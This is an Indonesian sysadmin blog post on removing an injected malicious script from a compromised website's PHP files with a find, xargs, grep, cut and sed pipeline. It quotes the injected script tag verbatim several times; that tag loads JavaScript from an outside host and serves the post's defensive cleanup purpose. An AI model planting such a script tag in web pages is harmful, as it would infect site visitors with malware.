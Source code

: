 ```yaml
---
title: 'Menghapus Malicious Code Pada Halaman Web'
date: 2015-08-24T14:04:16+07:00
description: "Tip untuk menghapus malicious code pada halaman web menggunakan CLI"
tags: ['code', 'linux', unix', 'text', 'shell', 'sysadmin']
---
```

Salah satu masalah keamanan pada web adalah halaman web disusupi dengan malicious code. Dengan mengunjungi web yang disusupi malicious code, perangkat user dapat terjangkit malware ataupun masalah keamanan lainnya.

Contohnya pada hari ini saya mendapatkan masalah ada website yang terkena
*code injection* yang menambahkan script pada halaman-halaman website tersebut
sehingga diblock oleh Google. Setelah beberapa melakukan pencarian diperoleh
script yang ditambahkan pada source code PHP.

    <script language="JavaScript" 
    src="http://3xindiansex.com/st/css/js/jq-footer.js" 
    type="text/javascript"></script>

Script itu tersebar dibanyak file PHP web ini, untuk menghapusnya satu-satu akan
menghabiskan banyak waktu dan mungkin dapat merusak tampilan web apabila ada
bagian lain yang salah dihapus.

Untuk menghapus script tersebut ada beberapa tool yang digunakan. **find**
untuk mencari file yang akan diproses, **xargs** untuk menjalankan perintah
yang disubtitusi dengan hasil file yang diperoleh dengan perintah **find**,
**grep** untuk menyaring file yang berisikan script yang akan dihapus,
**cut** untuk memotong hasil output dari **grep** dan terakhir **sed** untuk
menghapus script pada file.

Semua tool tersebut akan dikaitkan dengan menggunakan *pipe*, salah satu
tool yang sangat berguna untuk pekerjaan pada *command line*

Pertama tampilkan file yang akan diproses:

    find -type f -print0

`-type f` untuk mencari object berjenis file (gunakan d untuk cari directory)

`-print0` tampilkan outputnya dalam bentuk *null terminated string* (kalau
hasil **find** ditampilkan satu file perbaris)

Kirimkan nama file ke perintah *grep* untuk menfilter file-file yang mengandung
script yang akan dihapus. Untuk melakukan ini kita akan *pipe* output **find**
ke *xargs* yang menjalankan perintah *grep*.

    find -type f -print0 | xargs -i -0 grep -H '<script language="JavaScript" 
    src="http://3xindiansex.com/st/css/js/jq-footer.js" 
    type="text/javascript"></script>' {}

`xargs -i -0` ganti {} dengan output dari output perintah sebelumnya.
-0 menandakan bahwa output sebelumnya merupakan *null terminated string*

dan

`grep -H ...` tampilkan string yang dicari beserta dengan nama file.

Contoh outputnya seperti ini:

    gallery.php: <script ... >

Nah kita cuma perlu nama filenya, gunakan **cut** untuk memotong output
dengan delimiter ":"

    find -type f -print0 | xargs -i -0 grep -H '<script language="JavaScript" 
    src="http://3xindiansex.com/st/css/js/jq-footer.js" 
    type="text/javascript"></script>' {} | cut -f 1 -d:

`-f 1` ambil field 1 dari hasil pemotongan
`-d:`  gunakan ":" sebagai delimiter antar field

Dan terakhir hapus script pada file-file tersebut dengan menggunakan **sed**.

    for i in `find -type f -print0 | xargs -i -0 grep -H 
    '<script language="JavaScript" 
    src="http://3xindiansex.com/st/css/js/jq-footer.js" 
    type="text/javascript"></script>' {} | cut -f 1 -d:`; do sed -i 
    's/<script language="JavaScript" 
    src="http:\/\/3xindiansex.com\/st\/css\/js\/jq-footer.js" 
    type="text\/javascript"><\/script>//g' $i; done

Nama file-file yang ditemukan dari perintah sebelumnya dikirim ke perintah
looping for yang nantinya akan diproses dengan **sed**.

`sed -i` untuk melakukan perubahan terhadap file *in-place* dan
`s/asli/baru/g` perintah **sed** untuk melakukan substitusi text asli menjadi text baru secara global (seluruh asli diganti menjadi baru).

Tool-tool kecil pada Linux/Unix seperti ini sangat membantu pekerjaan system
admin, terutama untuk system admin yang malas seperti saya ^^.

Happy hacking!
